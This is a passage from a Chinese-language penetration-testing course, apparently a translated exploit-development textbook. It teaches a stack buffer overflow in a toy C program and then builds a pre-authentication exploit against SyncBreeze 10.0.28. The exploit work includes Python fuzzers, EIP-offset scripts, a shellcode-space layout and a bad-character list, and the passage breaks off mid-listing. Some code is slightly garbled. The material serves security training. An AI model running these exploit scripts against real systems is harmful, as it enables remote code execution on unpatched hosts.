我们现在可以使用 `Debug > Step into` 或 `Debug > Step over` 命令一次执行一条指令，它们的快捷键分别为 `F7` 和 `F8`。两者的区别在于，`Step into` 会跟随执行流程进入给定的函数调用，而 `Step over` 将执行整个函数并从中返回。

由于本例中的入口点与主函数的开头并不一致，我们的第一个目标是在内存中找到 `main` 函数的位置。在这个特定应用程序中，我们可以搜索进程内存空间以找到下面突出显示的错误消息，以帮助确定方位：

```c
#include <stdio.h>

#include <string.h>

int main(int argc, char *argv[])

{

    char buffer[64];

    if (argc < 2)

    {

        printf("Error - You must supply at least one argument\n");

        return 1;

    }

    strcpy(buffer, argv[1]);

    return 0;

}
```


### 列表 340 - 错误消息有助于我们定位 `main` 函数

要进行搜索，我们在反汇编窗口内右键单击并选择 `Search for > All referenced text strings`：


图 190：在 Immunity 调试器中搜索字符串

结果窗口（图 191）清楚地显示了我们正在查找的字符串。


*图 191。找到了我们的错误消息，我们可以回溯 `main` 函数的位置*

双击该行，我们返回反汇编窗口，但这次是在 `main` 函数内部。在图 192 中，我们识别出显示错误消息字符串的指令以及对 `strcpy` 函数的调用。


*图 192。已成功定位 `main` 函数*

我们的兴趣在于 `strcpy` 函数调用本身，因此我们可以在该指令上设置一个断点。断点本质上是有意的暂停，可以由调试器在任意程序指令上设置。

`307` (Wikipedia, 2019), https://en.wikipedia.org/wiki/Breakpoint


要在 `strcpy` 函数调用上设置断点，我们在反汇编窗口中选择地址 `0x004015AA` 处的行并按 `F2`。设置后，断点将以浅蓝色高亮显示该指令行，如图 193 所示。

接下来，我们可以通过选择 `Debug > Run` 或按 `F9` 来继续执行流程。几乎立即，执行再次停止在调用 `strcpy` 函数之前，即我们设置断点的位置（地址 `0x004015AA`）。


如图 194 所示，执行暂停在 `strcpy` 命令处（地址 `0x004015AA`）。`EIP` 也设置为此地址，因为它指向下一条要执行的指令。在栈窗口中，我们找到了来自命令行输入的十二个 "A" 字符（`src = "AAAAAAAAAAAA"`）以及 64 字节缓冲变量地址，这些字符将被复制到该地址（`*dest* = 0065FE70`）。

现在我们单步进入 `strcpy` 调用（使用 `Debug > Step into` 或 `F7`）。请注意，左上角汇编指令窗口中的地址已改变，因为我们现在位于 `strcpy` 函数内部。图 195 中高亮的地址 (`0x76485E90`) 对此有所说明。


图 195。`strcpy` 执行前的栈布局

现在，我们可以双击栈窗格中的 `strcpy` 目标地址（`0x0065FE70`），以便更好地监控该地址处的内存写入操作。图 196 中高亮显示了该地址，如红色箭头所示：


图 196。监控内存写入操作

如图 197 所示，这使栈窗格的视图略有变化。现在，我们在左列看到的是相对偏移量（正数和负数），而不是实际地址：


图 197：`strcpy` 执行前的相对偏移量栈布局

让我们更仔细地看一下这个栈窗口。首先，注意偏移量零，现在高亮显示并用箭头指示器（→）标注，是地址 `0x0065FE70`。这是目标缓冲区的开始，我们的 A 输入字符串最终将被复制到那里。由于我们在程序中定义了一个 64 字节缓冲区（`buffer[64]`），我们的缓冲区从偏移量 0 延伸到偏移量 +40，包括字符数组的空终止符。

请注意，此缓冲区中似乎有返回地址（偏移量 +C、+1C 和 +2C）以及其他各种奇怪的数据。由于我们在定义缓冲区时没有初始化或清除它，该空间填充了残留数据，调试器试图对其进行解释。当我们准备好将 A 的数组复制到缓冲区时，这些残留数据将被覆盖。

接下来，注意栈顶的返回地址 `0x004015AF`。这是 `strcpy` 完成时我们将返回的地址，与图 194 中显示的 `MOV EAX,0` 指令相对应。这是紧随将我们带到这里的 `CALL <JMP.&msvcrt.strcpy>` 指令之后的指令，而该 `CALL` 指令自动将此地址压入栈中。

此时，我们可以使用 `Debug > Execute till return` 或 `Ctrl+F9` 让执行继续到 `strcpy` 函数的结尾。这将使我们看到 `strcpy` 函数的结果：


在图 198 中，`strcpy` 已将十二个 "A" 字符复制到栈上（到缓冲区中），我们显然处于由声明的局部缓冲区变量大小限制的 64 字节限制之内。在继续之前，请心理记录图 198 中位于缓冲区变量偏移量 `0x4C` 处的地址（`0x04013E3`）。这是主函数的返回地址，是 `main` 函数完成执行后我们将返回的指令地址。我们稍后将在实际中看到这一点。

现在 `strcpy` 函数已完成执行，所有数据都已复制到目标缓冲区，是时候通过图 199 中显示的 `RETN` 汇编指令将执行返回 `main` 了。


这条 `RETN` 指令将栈顶的值（`0x004015AF`，图 199 中的相对偏移量 -0x14）“弹出”到 `EIP` 寄存器，指示 CPU 接下来执行该位置的代码。

如果我们单步执行这条 `RETN` 指令（使用 `Debug > Step into` 或 `F7`），我们将如预期般回到 `main` 函数地址 `0x004015AF`，因为这是 `strcpy` 调用后的下一个地址。


*图 200：从 `strcat` 返回到 `main` 函数*

下一条指令 `MOV EAX,0` 相当于我们原始源代码中的 `return 0;`，它将退出状态 `0` 发送给操作系统。

至此，我们已到达 `main` 函数的尾声（epilogue）。[^308] `main` 函数将简单地将执行权交还给编译器最初创建并调用 `main` 函数本身时生成的第一行代码。

下一条指令 `LEAVE`[^309] 将位于偏移量 `0x4C`（相对于我们的 `buffer` 局部变量起始位置）处的返回地址压入栈顶。随后，`RET` 汇编指令（见图 201）从栈顶弹出 `main` 函数的返回地址，并执行该处的代码。

[^308]: Wikipedia, 2019. <https://en.wikipedia.org/wiki/Function_prologue#Epilogue>
[^309]: c9x.me, <https://c9x.me/x86-64-abi/file_module_x86_64.html>


我们必须在此稍作停留，以便理解全貌。当 `strcpy` 将输入字符串（12 字节）从命令行参数复制到栈缓冲区变量时，它开始从地址 `0x0065FE70` 及其后续位置写入。在这种情况下，我们的 C 代码中对复制的大小没有边界检查，因此如果我们传递一个更长的字符串作为程序的输入，足够的数据将被写入栈中，最终我们应该能够覆盖位于缓冲区变量偏移 `0x4C` 处的 `main` 父函数的返回地址。这意味着，如果返回地址的覆盖操作正确执行，当 `main` 函数返回到父函数时，指令指针最终将处于我们的控制之下，因为它将包含我们部分参数数据。

### 10.2.4 缓冲区溢出

在之前的示例中，我们只写入了 12 字节，而可用空间为 64 字节，因此程序按预期正常运行并退出。然而，缓冲区地址（`0x0065FE70`）与 `main` 函数返回地址之间的偏移量为 76（十六进制为 `0x4c`）字节，因此如果我们提供 80 个 "A" 作为参数，它们都应被复制到栈上，并越过分配的缓冲区界限，写入目标返回地址，如图 202 所示。


图 202：缓冲区溢出示意图

为了做到这一点，我们可以使用 `文件 > 打开` 重新打开应用程序，并在 `参数` 中输入 80 个 A。在 `strcpy` 函数上设置断点并继续执行直到返回后，我们最终会得到如图 203 所示的栈布局。


图 203：`main` 父函数的返回地址在栈中被覆盖

如果我们继续执行并进入 `main` 函数中的 `RET` 指令，被覆盖的返回地址将被弹出到 `EIP`。


图 204. `main` 函数返回到无效的 `0x41414141` 地址

此时，CPU 试图从 `0x41414141` 读取下一条指令。由于这不是进程内存空间中的有效地址，CPU 会触发访问违规，导致应用程序崩溃。


图 205. `EIP` 覆盖

再次强调，必须牢记 `EIP` 寄存器被 CPU 用于在汇编级别引导代码执行。因此，获得对 `EIP` 的可靠控制将允许我们执行任何想要的汇编代码，最终获取 `shellcode`，从而在易受攻击的应用程序上下文中获得反向 `shell`。我们将在后续模块中继续完成这一过程。

#### 10.2.5 练习

- 1. 重复本节所示的步骤，查看 12 个 A 被复制到栈上。
- 2. 提供至少 80 个 A，并验证 `strcpy` 之后的 `EIP` 将包含值 `41414141`。

## 10.3 总结

在本模块中，我们介绍了缓冲区溢出背后的原理，这是一种内存损坏漏洞。我们回顾了程序内存的使用方式、缓冲区溢出是如何发生的，以及如何利用溢出来控制应用程序的执行流程。这让我们对使此攻击成为可能的条件有了很好的理解，并将有助于我们在后续模块中开发利用此类漏洞的攻击载荷。

## 11. Windows 缓冲区溢出

在本模块中，我们将演示如何发现并利用 `SyncBreeze` 应用程序中的一个漏洞。[^310] 虽然我们在检查一个已知的漏洞，但我们不会依赖针对该应用程序之前的研究，而是将逐步展示“发现”它所需的步骤。这基本上将复制发现和利用远程缓冲区溢出的过程。

这个过程需要几个步骤。首先，我们必须发现代码中的漏洞（在没有源代码访问权限的情况下）。然后，我们必须以这样的方式创建输入，从而获得对关键 CPU 寄存器的控制。最后，我们需要操纵内存以获得可靠的远程代码执行能力。

### 11.1 发现漏洞

一般来说，识别应用程序缺陷主要有三种技术。如果源代码可用，源代码审查可能是最容易的。如果不可用，我们可以使用逆向工程技术或模糊测试（`fuzzing`）来查找漏洞。在本模块中，我们将重点介绍模糊测试。

模糊测试的目标是向目标应用程序提供未被正确处理的输入，从而导致应用程序崩溃。在其最基本的形式中，这种输入是程序生成的格式错误的数据。如果处理格式错误的输入数据导致崩溃，这可能表明存在潜在的、可利用的漏洞，例如缓冲区溢出。

我们可以根据特定需求采用许多不同类别的模糊测试工具和技术。如果一个模糊测试工具从头开始创建格式错误的应用程序输入，遵循如文件格式或网络协议规范等规则，则它被视为生成型（generation-based）。变异型（mutation-based）模糊测试工具则通过诸如位翻转等技术修改现有输入，以创建原始输入的格式错误变体。

一般来说，能够感知应用程序输入格式的模糊测试工具可以被称为智能模糊测试工具。[^311]

### 11.1.1 对 HTTP 协议进行模糊测试

让我们看看我们易受攻击的应用程序，以展示模糊测试和漏洞开发过程。2017 年，在 `SyncBreeze` 版本 `10.0.28` 的登录机制中发现了缓冲区溢出漏洞。具体来说，HTTP POST 登录请求中的用户名字段可用于使应用程序崩溃。由于触发漏洞不需要有效的凭据，它被视为身份验证前的缓冲区溢出，这对我们渗透测试人员来说是一个绝佳的机会。

我们将首先在 Windows 10 客户端机器上启动 `SyncBreeze` 服务。这可以通过启动服务控制台（`services.msc`），右键单击 `SyncBreeze` 并选择“启动”来完成。

[^310]: Flexense, 2019, http://www.syncbreeze.com/
[^311]: Wikipedia, 2019, https://en.wikipedia.org/wiki/Fuzzing


图 206：启动 `SyncBreeze` 服务

现在服务已运行，我们可以专注于漏洞发现过程。如果我们对此漏洞没有任何先验知识，我们将开始对应用程序提供的每个输入字段进行模糊测试，希望出现意外行为或应用程序崩溃。然而，为了本模块的目的，我们将跳过这一步，并专门关注易受攻击的用户名字段。为了从头开始编写一个基本的生成型模糊测试器，我们首先将采样客户端和服务器之间在易受攻击交互期间传递的网络流量，用作我们的输入数据或种子。

> 我们将在本模块中使用 `Wireshark` 来收集网络协议信息，但像 `Burp Suite` 这样的网络代理也可以用于分析基于 HTTP 的协议。

首先，我们将在 Kali Linux 机器上启动 `Wireshark`，使用无效的凭据登录 `SyncBreeze`，并在我们登录 `SyncBreeze` 时监控我们 Windows 10 机器上 TCP 端口 `80` 上的流量：


图 207：登录 `SyncBreeze`


检查流量数据发现，TCP 三次握手之后跟随的是我们的 HTTP 流量。TCP 流的内容如下：


## HTTP 请求示例

```
POST /login HTTP/1.1

Host: 10.11.0.22

User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.11.0.22/login

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 27

username=AAAAA&password=BBBB
```

```
HTTP/1.1 200 OK

Content-Type: text/html

Content-Length: 730
```

HTTP 响应主体如下：

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv='Content-Type' content='text/html; charset=UTF-8'>
<meta name='Author' content='Flexense HTTP Server v10.0.28'>
<meta name='GENERATOR' content='Flexense HTTP v10.0.28'>
<title>Sync Breeze Enterprise @ DESKTOP-4WK82B0@ - Error</title>
<link rel='stylesheet' type='text/css' href='resources/syncbreeze.css' media='all'>
</head>
<body>
<center>
<div class='error_message' style='margin-top: 200px;'>
<p>The specified user name and/or password is incorrect.</p>
</div>
<input style='margin-top: 20px;' type='button' value='Close' onClick="history.go(-1);">
</center>
</body>
</html>
```

HTTP 回复显示用户名和密码无效，但这无关紧要，因为我们正在调查的漏洞存在于身份验证发生之前。我们可以复制此 HTTP 通信，并仿照以下示例开始使用 Python 概念验证（PoC）脚本来构建我们的模糊测试器：

```python
#!/usr/bin/python
import socket

def main():
    # 发送恶意缓冲区
    buffer = "/usr/share/man/man1/b*\n"
    size = 0
    while len(buffer) < 1000:
        buffer = buffer + "A"
        size = size + 1
    print("Buffer size: " + str(size))
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        print("Done")
    except:
        print("Could not connect!")

main()
```

清单 342 - 执行登录 HTTP POST 的概念验证 Python 脚本

由于我们知道正在处理的是缓冲区溢出漏洞，因此我们将构建基于生成的模糊测试器，使其发送多个具有逐渐变长的用户名的 HTTP POST 请求。我们脚本的下一个迭代版本如清单 343 所示：


```python
#!/usr/bin/python
import socket
import time
import sys

def main():
    size = 100
    while(size < 2000):
        try:
            print "\nSending evil buffer with %s bytes" % size
            inputBuffer = "A" * size
            content = "username=" + inputBuffer + "&password=A"
            buffer = "POST /login HTTP/1.1\r\n"
            buffer += "Host: 10.11.0.22\r\n"
            buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
            buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.*,*;q=0.8\r\n"
            buffer += "Accept-Language: en-US,en;q=0.5\r\n"
            buffer += "Referer: http://10.11.0.22/login\r\n"
            buffer += "Connection: close\r\n"
            buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
            buffer += "Content-Length: " + str(len(content)) + "\r\n"
            buffer += "\r\n"
            buffer += content
            s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("10.11.0.22", 80))
            s.send(buffer)
            s.close()
            size += 100
            time.sleep(10)
        except:
            print "\nCould not connect!"
            sys.exit()
```


# 清单 343 - 用于模糊测试 SyncBreeze 的 Python 脚本

在上述 `while` 循环中，请注意，我们在每次登录尝试时都将用户名字段的长度增加了 100 个字符。然后，我们在 `HTTP POST` 命令之间插入了 10 秒的延迟，以减慢进程并更清晰地显示是哪个 `HTTP POST` 导致了漏洞触发。

在运行模糊测试器之前，我们必须将调试器附加到正在运行的 `SyncBreeze`，以捕获任何潜在的访问违规。

然而，我们首先必须确定多个 `SyncBreeze` 进程中哪一个正在监听 `TCP` 端口 `80`。虽然 `Immunity Debugger` 有一个 *Listening*（监听）列专门用于显示此信息，但在我们的情况下它不可用。相反，我们将首先取消 *Options*（选项）菜单中 *Resolve Addresses*（解析地址）的勾选，从而使用 Microsoft `TCPView` 来实现此目的，获取图 209 中所示的视图。

1 (Microsoft, 2011). https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview


| 进程 | PID | 协议 | 本地地址 | 本地端口 | 远程地址 | 远程端口 | 状态 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| syncbrs.exe | 688 | TCP | 0.0.0.0 | 80 | 0.0.0.0 | 0 | LISTENING |
| svchost.exe | 860 | TCP | 0.0.0.0 | 135 | 0.0.0.0 | 0 | LISTENING |
| svchost.exe | 860 | TCPv6 | [0:0:0:0:0:0:0:0] | 135 | [0:0:0:0:0:0:0:0] | 0 | LISTENING |
| System | 4 | UDP | 10.11.0.22 | 137 | - | - | - |
| System | 4 | UDP | 10.11.0.22 | 139 | - | - | - |
| System | 4 | TCP | 10.11.0.22 | 139 | 0.0.0.0 | 0 | LISTENING |
| System | 4 | TCP | 0.0.0.0 | 445 | 0.0.0.0 | 0 | LISTENING |

图 209: `TCPView`

在这种情况下，进程名为 `syncbrs.exe`，进程 ID 为 `688`。然而，当打开 `Immunity Debugger` 并导航至 `File > Attach`（文件 > 附加）时，此进程并未出现。这是因为 `SyncBreeze` 以 `SYSTEM` 权限运行，而 `Immunity Debugger` 是作为普通用户执行的。为了解决这个问题，我们需要右键点击 `Immunity Debugger` 并选择“以管理员身份运行”，从而以管理权限重新启动 `Immunity Debugger`。


图 210: 附加窗口

将调试器附加到应用程序会使其暂停，因此我们需要按 `F9` 恢复执行。

现在调试器已附加且 `SyncBreeze` 正在运行，我们可以运行模糊测试脚本，这将产生以下输出：

```
kali@kali:~$ ./fuzzer.py

Fuzzing username with 100 bytes

...

Fuzzing username with 800 bytes

Fuzzing username with 900 bytes
```

清单 344 - 模糊测试进行中

当我们的用户名缓冲区长度达到大约 800 字节时，调试器在尝试执行地址 `41414141` 处的代码时向我们展示了一个访问违规：


图 211: `Immunity Debugger` 中的访问违规

我们的简单模糊测试器触发了应用程序中的一个漏洞！这种类型的漏洞通常是由于内存操作（如复制或移动）覆盖了其预期内存区域之外的数据所致。当覆盖发生在栈上时，这会导致栈缓冲区溢出。这似乎是一个相当无害的疏忽，但我们将利用它来欺骗 CPU 执行我们想要的任何代码。

我们的模糊测试器使 `SyncBreeze` 应用程序崩溃，我们需要重新启动它。由于它是作为服务运行的，我们需要通过服务控制台 `services.msc` 来重启它。


图 212: `services.msc` 中的 `SyncBreeze` 服务

## 11.1.1.2 练习

- 1. 构建模糊测试器并复现 `SyncBreeze` 的崩溃。
- 2. 检查其他寄存器和栈内存的内容。是否有任何内容似乎直接受模糊测试输入的影响？

### 11.2 Win32 缓冲区溢出利用

发现可利用的漏洞令人兴奋，但将该发现开发成一个可用的漏洞利用程序并成功获得 shell 更是令人兴奋且更具实用性。为此，我们的第一个目标是获得对 `EIP` 寄存器的控制权。

#### 11.2.1 关于 DEP、ASLR 和 CFG 的说明

已经设计了几种保护机制，使 `EIP` 控制更难获取或利用。

微软实现了多种此类保护，具体包括数据执行保护（`DEP`）、地址空间布局随机化（`ASLR`）和控制流防护（`CFG`）。在我们继续之前，让我们更详细地讨论一下这些内容。

`DEP` 是一组硬件和软件技术，对内存执行额外检查，以帮助防止恶意代码在系统上运行。`DEP` 的主要好处是有助于通过将尝试从数据页执行代码时引发的异常来防止代码从数据页执行。

`ASLR` 在每次操作系统启动时随机化已加载应用程序和 `DLL` 的基地址。在像 `Windows XP` 这样未实现 `ASLR` 的较旧 `Windows` 操作系统上，所有 `DLL` 每次都在相同的内存地址加载，这使得利用变得更加简单。当与 `DEP` 结合使用时，`ASLR` 提供了非常强大的利用缓解措施。

最后，`CFG`（微软对控制流完整性的实现）对间接代码分支进行验证，防止函数指针被覆盖。

幸运的是，`SyncBreeze` 软件是在没有 `DEP`、`ASLR` 或 `CFG` 支持的情况下编译的，这使得利用过程变得更加简单，因为我们不需要绕过甚至担心这些内部安全机制。

#### 11.2.2 复现崩溃

根据我们的模糊测试器输出，我们可以假设当通过登录过程中的 `HTTP POST` 请求提交长度约为 800 字节的用户名时，`SyncBreeze` 可能易受缓冲区溢出影响。利用过程中的第一个任务是编写一个简单的脚本来复现我们观察到的崩溃，而无需每次都运行模糊测试器。我们的新脚本看起来像清单 345 中所示的那样：

```python
#!/usr/bin/python

import socket

try:

  print "\nSending evil buffer..."

  size = 800

  inputBuffer = "A" * size

  content = "username=" + inputBuffer + "&password=A"

  buffer = "POST /login HTTP/1.1\r\n"
```


- 313 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/memory/data-execution-prevention
- 314 (Michael Howard, 2006), https://blogs.msdn.microsoft.com/michael_howard/2006/05/26/address-space-layout-randomization-in-windows-vista/
- 315 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard
- 316 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Page_computer_memory)

### 列表 345 - 复现缓冲区溢出

当执行此脚本时，会导致类似于我们之前观察到的访问冲突。换句话说，我们能够一致地复现崩溃。这是一个良好的第一步。

#### 11.2.3 控制 EIP

在利用内存损坏漏洞时，获取 `EIP` 寄存器的控制权是关键步骤。`EIP` 寄存器类似于马的缰绳；我们可以用它来控制应用程序的方向或流程。然而，此时我们只知道缓冲区中由 `A` 组成的某个未知部分覆盖了 `EIP`，如图 213 所示：


图 213：`EIP` 被 `A` 覆盖

在我们能够将有效的目标地址加载到指令指针并控制执行流程之前，我们需要确切知道我们缓冲区的哪一部分落在 `EIP` 中。

有两种常见的方法可以做到这一点。首先，我们可以尝试*二叉树分析*。不用发送 800 个 `A`，而是发送 400 个 `A` 和 400 个 `B`。如果 `EIP` 被 `B` 覆盖，我们就知道这四个字节位于缓冲区的后半部分。然后我们将 400 个 `B` 改为 200 个 `B` 和 200 个 `C`，并再次发送缓冲区。如果 `EIP` 被 `C` 覆盖，我们就知道这四个字节位于 600–800 字节范围内。我们继续分割特定的缓冲区，直到找到确切覆盖 `EIP` 的四个字节。从数学上讲，这应该在七次迭代中完成。

然而，有一种更快的方法来识别这四个字节的位置。我们可以使用一个足够长的、由不重复的 4 字节块组成的字符串作为我们的模糊测试输入。然后，当 `EIP` 被我们字符串中的 4 个字节覆盖时，我们可以使用它们的唯一序列来精确定位它们在输入缓冲区中的位置。虽然起初这可能有点难以理解，但当我们要应用该技术时，它会变得清晰明了。

我们将使用 Metasploit 的 `pattern_create.rb` Ruby 脚本来帮助我们实现这种方法。`pattern_create.rb` 脚本位于 `/usr/share/metasploit-framework/tools/exploit/`，但可以在 Kali 中的任何位置通过运行 `msf-pattern_create` 来执行，如下所示：

```text
kali@kali:~$ locate pattern_create

/usr/bin/msf-pattern_create

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb

kali@kali:~$ msf-pattern_create -h

Usage: msf-pattern_create [options]

Example: msf-pattern_create -l 50 -s ABC,def,123

Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf

Options:

-l, --length <length>		The length of the pattern

-s, --sets <ABC,def,123>		Custom Pattern Sets

-h, --help			Show this message
```

列表 346 - `msf-pattern_create` 的位置和帮助用法

为了创建用于概念验证的字符串，我们传递 `-l` 参数，该参数定义了我们所需字符串的长度（800）：

```text
kali@kali:~$ msf-pattern_create -l 800

Aa0A1A2A3A4A5A6A7A8A9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5

A16A17A18A19Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak

...
```

列表 347 - 创建唯一字符串

下一步是更新我们的 Python 脚本，将现有的由 800 个 `A` 组成的缓冲区替换为这个新的唯一字符串：

```python
#!/usr/bin/python

import socket

try:
    print "\nSending evil buffer..."
    inputBuffer = "Aa0A1Aa2A3A4A5A5Aa...1Ba2Ba3Ba4Ba5Ba"
    content = "username=" + inputBuffer + "&password=A"
    ...
```

列表 348 - 带有唯一字符串的更新缓冲区

当我们重启 SyncBreeze 并再次运行我们的漏洞利用程序时，我们注意到 `EIP` 包含一个新的字符串，类似于图 214 中所示的字符串：


图 214：`EIP` 被覆盖

`EIP` 寄存器已被 `42306142` 覆盖，这是四个字符 `"B0aB"` 的十六进制表示。知道了这一点，我们可以使用 `pattern_create.rb` 的配套工具 `pattern_offset.rb` 来确定这四个特定字节在我们字符串中的偏移量。在 Kali 中，此脚本可以通过 `msf-pattern_offset` 从任何位置运行。

为了找到发生 `EIP` 覆盖的偏移量，我们可以使用 `-l` 指定原始字符串的长度（在我们的情况下为 800），并使用 `-q` 指定我们在 `EIP` 中找到的字节（`42306142`）：

```text
kali@kali:~$ msf-pattern_offset -l 800 -q 42306142

[*] Exact match at offset 780
```

列表 349 - 查找偏移量

`msf-pattern_offset` 脚本报告说，这四个字节位于 800 字节模式的偏移量 780 处。让我们将此转换为新的修改后的缓冲区字符串，看看我们能否让四个 `B`（`0x42424242`）精确地落在 `EIP` 寄存器中：

```python
#!/usr/bin/python

import socket

try:
    print "\nSending evil buffer..."
    filler = "A" * 780
    eip = "B" * 4
    buffer = "C" * 16
    inputBuffer = filler + eip + buffer
    content = "username=" + inputBuffer + "&password=A"
    ...
```


列表 350 - 更新的缓冲区字符串

这次，Web 服务器崩溃，生成的缓冲区结构完美，并且 EIP 现在包含我们的四个 B（`0x42424242`），如图 215 所示：


图 215. EIP 已受控

我们现在对 EIP 拥有完全控制权，并且应该能够有效控制 SyncBreeze 的执行流程！然而，我们需要替换我们的 `0x42424242` 占位符，并将应用程序流程重定向到我们想要执行的代码的有效地址。

### 11.2.3.1 练习

- 编写一个独立脚本来复现崩溃。
- 确定输入缓冲区内的偏移量以成功控制 EIP。
- 更新你的独立脚本，将唯一值放入 EIP 以确保你的偏移量是正确的。

### 11.2.4 定位 Shellcode 的空间

此时，我们知道我们可以在 EIP 中放置任意地址，但不知道使用什么实际地址。然而，在理解我们可以将执行流程重定向到哪里之前，我们无法选择一个地址。因此，我们将首先关注我们希望目标执行的代码，更重要的是，理解这些代码在内存中将适应在哪里。

理想情况下，我们希望目标执行我们选择的一些代码，例如反向 shell。我们可以将这样的 shellcode[^1] 作为触发崩溃的输入缓冲区的一部分。

> Shellcode 是一组汇编指令，当执行时，执行攻击者期望的操作。这通常是打开反向或绑定 shell，但也可能包括更复杂的操作。

我们将使用 Metasploit 框架来生成我们的 shellcode 有效载荷。回顾我们在图 215 中最后一次崩溃后的寄存器，我们注意到 ESP 寄存器指向我们由 C 组成的缓冲区。

由于我们可以通过存储在 ESP 中的地址轻松地在崩溃时访问此位置，这似乎是我们 shellcode 的方便位置。

[^1]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Shellcode


对崩溃时栈的仔细检查（列表 351）显示，我们缓冲区中的前四个 C 落在地址 `0x01307460`，而存储 `0x01307464`（图 215）的 ESP 指向我们缓冲区中的下一个四个 C：

| 地址 | 十六进制 | ASCII |
|---|---|---|
| 01307444 | 41414141 | AAAA |
| 01307448 | 41414141 | AAAA |
| 0130744C | 41414141 | AAAA |
| 01307450 | 41414141 | AAAA |
| 01307454 | 41414141 | AAAA |
| 01307458 | 41414141 | AAAA |
| 0130745C | 42424242 | BBBB |
| 01307460 | 43434343 | CCCC |
| 01307464 | 43434343 | CCCC |
| 01307468 | 43434343 | CCCC |
| 0130746C | 43434343 | CCCC |
| 01307470 | 00000000 | |
| 01307474 | 00000000 | |

列表 351 - ESP 指向 C’s

根据经验，我们知道标准的反向 shell 有效载荷大约需要 350–400 字节的内存空间。然而，上述列表清楚地显示缓冲区中只有十六个 C，这对于我们的 shellcode 来说远远不够。解决这个问题的最简单方法是尝试将漏洞利用程序中的缓冲区长度从 800 字节增加到 1500 字节，看看这是否允许足够的空间放置我们的 shellcode，而不破坏缓冲区溢出条件或改变崩溃的性质。

> 根据应用程序和漏洞类型，输入长度可能会受到限制。在某些情况下，增加缓冲区长度可能会导致完全不同的崩溃，因为较大的缓冲区会覆盖目标应用程序使用的堆栈上的额外数据。

对于此更新，我们将添加‘D’字符作为我们 shellcode 的占位符：

```python
...
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + buffer
...
```

列表 352 - 更新的 username 字符串

一旦发送了新的、更长的缓冲区，可以在调试器中观察到类似的崩溃。不过，这次我们发现 ESP 指向不同的地址值 `0x030E745C`，如图 216 所示：

## 11.2.5 检查不良字符


*图 216. 堆栈空间增加*

因此，ESP 指向 $D$ 字符（十六进制为 `0x44`），它充当我们 shellcode 的占位符：

```
030E7448 41414141 AAAA
030E744C 41414141 AAAA
030E7450 41414141 AAAA
030E7454 42424242 BBBB
030E7458 43434343 CCCC
030E745C 44444444 DDDD
030E7460 44444444 DDDD
030E7464 44444444 DDDD
030E7468 44444444 DDDD
030E746C 44444444 DDDD
...
030E745C 44444444 DDDD
```

*列表 353 - 为 shellcode 增加堆栈空间*

这个小技巧为我们提供了显著更多的操作空间。经过进一步检查，我们注意到我们现在总共有 704 字节（`0x030E771C - 0x030E745C = 704`）的可用空间用于我们的 shellcode。

此外，请注意 ESP 的地址在每次运行利用程序时都会发生变化，但仍然指向我们的缓冲区。我们将在后续章节中讨论这个问题，但首先我们还有另一个障碍需要克服。

根据应用程序、漏洞类型以及使用的协议，可能存在某些被视为“不良”且不应在缓冲区、返回地址或 shellcode 中使用的字符。一个常见的不良字符示例，特别是在由未检查的字符串复制操作引起的缓冲区溢出中，就是空字节 `0x00`。这个字符被认为是有问题的，因为空字节也用于在低级语言（如 C/C++）中终止字符串。这将导致字符串复制操作结束，从而实际上在遇到第一个空字节时截断我们的缓冲区。

此外，由于我们作为 HTTP POST 请求的一部分发送利用程序，我们应该避免使用 `0x0D`（回车字符），它表示 HTTP 字段的结束（在这种情况下是用户名）。

经验丰富的漏洞利用开发人员总会检查不良字符。确定特定利用程序中哪些字符是不良字符的一种方法是发送所有可能的字符（从 `0x00` 到 `0xFF`）作为缓冲区的一部分，并观察应用程序在崩溃后如何处理这些字符。

为此，我们将重新利用概念验证脚本，并将我们的 D 替换为所有可能的十六进制字符，除了 `0x00`。（列表 354）：

```python
#!/usr/bin/python
import socket
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\
